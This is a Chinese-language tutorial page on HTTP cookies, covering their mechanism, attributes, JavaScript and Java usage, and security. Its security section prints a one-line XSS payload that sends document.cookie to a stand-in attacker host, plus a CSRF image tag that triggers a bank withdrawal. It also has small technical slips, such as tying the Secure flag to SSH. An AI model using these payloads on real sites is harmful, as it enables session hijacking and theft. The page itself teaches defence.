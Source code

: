 ```yaml
---
title: Cookie的总结
date: '2021-05-24'
categories:
 - 网络基础
---
```


### Cookie的介绍

HTTP Cookie是**服务器发送到用户浏览器并保存在本地**的一小块数据，**它会在浏览器下次向同一服务器再发起请求时被携带并发送到服务器上。**

通常，它用于告知服务端两个请求是否来自同一浏览器，如保持用户的登录状态。Cookie 使基于**无状态**的HTTP协议记录稳定的状态信息成为了可能。

[^无状态]:当一个客户端向服务器端发出请求，服务器返回响应（Response）后连接就被关闭了，在服务器端不保留连接的有关信息，这就是无状态



### Cookie的特点

Cookie 一般用于存储少量的不太敏感的数据（数据不安全）

浏览器对于单个 Cookie 的大小有限制(4kb)以及对同一个域名下的总 Cookie 数量也有限制(20个)（少量数据）



### Cookie的应用场景

cookie一般用来储存登入状态，即可以在不登录的情况下，完成服务器对客户端的身份识别

更多场景如下：

- 会话状态管理（如用户登录状态、购物车、游戏分数或其它需要记录的信息）
- 个性化设置（如用户自定义设置、主题等）
- 浏览器行为跟踪（如跟踪分析用户行为等）



### Cookie的机制

当用户第一次访问并登陆一个网站的时候，cookie的设置以及发送会经历以下4个步骤：

![](./img/cookie机制.jpg)



1.  客户端发送一个请求到服务器         //场景：如第一次登入博客
2. 服务器发送一个HttpResponse响应到客户端，其中包含Set-Cookie的头部，客户端保存cookie    //第一次登入成功
3.  之后向服务器发送请求时，HttpRequest请求中会包含一个Cookie的头部   //第二次进入博客
4. 服务器返回响应数据                       //无需登入，即可进入正式页面



##### 后端代码验证

```java
//java代码
protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
  Cookie cookie = new Cookie("mcrwayfun",System.currentTimeMillis()+"");
  // 设置生命周期为MAX_VALUE
  cookie.setMaxAge(Integer.MAX_VALUE);
  //并将其加入到了HttpResponse对象中
  resp.addCookie(cookie);
}
```

![](./img/后端验证图片.jpg)

可以看到确实如cookie机制中步骤2、3



### Cookie的使用

#### Cookie的属性

| 属性项     | 属性项介绍                                                   |
| :--------- | :----------------------------------------------------------- |
| NAME=VALUE | 键值对，可以设置要保存的 Key/Value，注意这里的 NAME 不能和其他属性项的名字一样 |
| maxAge     | cookie的失效时间，单位秒，如果为整数，则在maxAge秒后失效；为-1则是临时cookie，关闭浏览器即失效；为0表示删除该cookie。默认为 -1 。    **比Expires好用** |
| Expires    | 过期时间，在设置的某个时间点后该 Cookie 就会失效             |
| Domain     | 生成该 Cookie 的域名，如 domain="[www.baidu.com](http://www.baidu.com)" |
| Path       | 该 Cookie 是在当前的哪个路径下生成的，如 path=/wp-admin/     |
| Secure     | 如果设置了这个属性，那么只会在 SSH 连接时才会回传该 Cookie   |
| SameSite   | 允许服务器要求某个 cookie 在跨站请求时不会被发送  <br /><br />1.  SameSite=None 浏览器会在同站请求、跨站都发送 cookies<br />2.  SameSite=Strict 浏览器将只在相同站点时发送 cookie<br />3. SameSite=Lax  与**Strict**类似，但用户从外部链接导航至URL时除外 |
| httpOnly   | 如果给某个cookie设置了httpOnly属性，则无法通过JS脚本读取到该cookie的信息，但还是能通过Application 中手动修改cookie，所以只是在一定程度上可以防止XSS攻击，不是绝对的安全 |



#### Cookie的使用方法

* 读取 Cookie

  `var x = document.cookie;`

* 修改 Cookie

  `document.cookie="username=John Smith; expires=Thu, 18 Dec 2043 12:00:00 GMT; path=/";`

* 删除 Cookie

  删除cookie只需要设置 expires 参数为以前的时间即可（注意，删除时不必指定 cookie 的值）

  `document.cookie = "username=; expires=Thu, 01 Jan 1970 00:00:00 GMT";`

  

#### Cookie的有效期

Cookie 的有效期有两种方式定义

* 会话期 Cookie：浏览器关闭之后它会被自动删除     //不指定过期时间（`Expires`）或者有效期（`Max-Age`），即为会话题Cookie
* 持久性Cookie：设置了过期时间（`Expires`）或有效期（`Max-Age`）

##### Expires的使用方式

```js
document.cookie="username=John Doe; expires=Thu, 18 Dec 2043 12:00:00 GMT";
```

##### Max-Age的使用方式

```js
// 设置生命周期为MAX_VALUE，永久有效
document.cookie="username=John Doe; max-age="+Integer.MAX_VALUE;
// 设置生命周期为-1 ,会话期内有效
document.cookie="username=John Doe; max-age= -1";
// 设置生命周期为 0 ,用完之后立马被删除！
document.cookie="username=John Doe; max-age= 0";
```





### Cookie的问题

#### Cookie在不同的项目中能不能共享？

> 在同一个 Tomcat 服务器中，部署了多个 Web 项目，那么在这些 Web 项目中 Cookie 能不能共享？

默认情况下 Cookie 不能共享，如果要在不同项目中共享，则可以将path设置为  “/”



> 不同的 Tomcat 服务器间 Cookie 能不能共享？

setDomain(String path)：如果设置一级域名相同，那么多个服务器之间 Cookie 可以共享

如：setDomain(".baidu.com")，那么 tieba.baidu.com 和 news.baidu.com 中 Cookie 可以共享



#### Cookie 能不能存储中文？

在 Tomcat 8 之前，Cookie 中不能直接存储中文数据。
在 Tomcat 8 之后，Cookie  支持中文数据。但特殊字符（如空格）还是不支持，建议使用 URL 编码存储，URL 解码解析。



### Cookie安全

####  会话劫持和 XSS

在 Web 应用中，Cookie 常用来标记用户或授权会话。因此，如果 Web 应用的 Cookie 被窃取，可能导致授权用户的会话受到攻击。常用的窃取 Cookie 的方法有利用社会工程学攻击和利用应用程序漏洞进行 [XSS](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting) 攻击。

```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

#### 跨站请求伪造（CSRF）

在不安全聊天室或论坛上的一张图片，它实际上是一个给你银行服务器发送提现的请求：

```js
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

当你打开含有了这张图片的 HTML 页面时，如果你之前已经登录了你的银行帐号并且 Cookie 仍然有效（还没有其它验证步骤），你银行里的钱很可能会被自动转走。



####  缓解Cookie攻击的方法

- 使用 `HttpOnly` 属性可防止通过 JavaScript 访问 cookie 值。
- 用于敏感信息（例如身份验证）的 Cookie 的生存期应设置较短，并且 `SameSite` 属性设置为`Strict` 或 `Lax`，防止跨域请求发送Cookie。
